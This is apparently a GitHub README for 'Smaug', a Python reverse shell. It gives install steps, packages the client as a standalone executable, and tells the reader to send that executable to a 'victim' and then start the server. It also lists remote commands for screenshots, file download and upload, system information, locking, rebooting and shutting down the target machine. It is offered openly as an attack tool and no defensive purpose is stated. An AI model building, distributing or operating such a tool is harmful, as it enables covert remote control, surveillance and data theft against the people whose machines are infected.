 # Smaug
Smaug is a simple in python written Reverse Shell

---

![demo](/images/demo.png)

## Installation

You need python installed to use this application

Clone the repository and cd in to it
```
git clone https://github.com/gokiimax/Smaug.git
cd Smaug
```

1. Install Requirements
```
python3 -m pip install -r requirements.txt
```

2. Create exe from client.pyw
```
python3 -m pip install auto-py-to-exe
pyinstaller --noconfirm --onefile --console "./client.pyw"
```

3. Send Your new Exe file to your victim and Start the server
```
cd server
python3 server.py
```

## Commands

- [x] - help
- [x] - cd
- [x] - turnmonoff
- [x] - turnmonon
- [x] - checkadmin
- [x] - localtime
- [x] - clear
- [x] - reboot
- [x] - shutdown
- [x] - lock
- [x] - screenshot
- [x] - download
- [x] - upload
- [x] - sysinfo
- [x] - exit
